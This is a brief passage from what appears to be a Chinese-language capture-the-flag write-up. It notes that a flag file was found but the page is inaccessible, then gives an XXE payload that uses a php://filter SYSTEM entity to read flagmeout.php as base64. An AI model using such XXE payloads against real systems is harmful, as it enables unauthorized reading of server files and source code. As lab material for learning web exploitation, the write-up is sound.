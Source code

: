 发现flag，但是页面不能访问到

![](image39/QQ截图20220330214629.png)

#### 使用 payload读取flagmeout.php文件

```xml

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=flagmeout.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```


